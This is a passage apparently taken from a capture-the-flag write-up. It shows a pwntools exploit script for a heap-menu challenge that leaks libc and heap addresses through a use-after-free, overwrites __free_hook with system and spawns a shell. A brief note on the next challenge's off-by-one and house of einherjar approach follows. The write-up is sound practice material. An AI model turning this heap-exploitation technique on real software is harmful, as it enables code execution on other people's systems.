 ```py
    p.sendline(comment)

def view_comment(idx):
    p.recvuntil("Choice: ")
    p.sendline("4")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))

def delete_song(idx):
    p.recvuntil("Choice: ")
    p.sendline("5")
    p.recvuntil("Which song to you want to select: ")
    p.sendline(str(idx))

# do heap leak
add_song(0x40, b"A" * 0x4)
add_song(0x500, b"B" * 0x50)
add_song(0x40, b"C"*0x4)
add_song(0x40, b"/bin/sh\x00")

delete_song(0)
delete_song(1)
delete_song(2)

view_comment(1)
p.recvuntil("Here is your comment:\n")
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("libc leak: " + hex(libc_leak))
libc_base = libc_leak - 0x1ecbe0
free_hook = libc_base + libc.symbols["__free_hook"]
view_comment(2)
p.recvuntil("Here is your comment:\n")
heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("heap leak: " + hex(heap_leak))
heap_base = heap_leak - 0x2a0
edit_comment(2, 0x10, p64(free_hook))
add_song(0x40, b"D"*0x4)
add_song(0x40, p64(libc_base + libc.symbols["system"]))
delete_song(3)
# gdb.attach(p)
# pause()
p.interactive()
```

## fotispy7

Done in 2 - 3 hrs.

We have a UAF but can only do the heap leak. However, we have an off-by-one so the primitives combined gives us a perfect condition for house of einherjar.
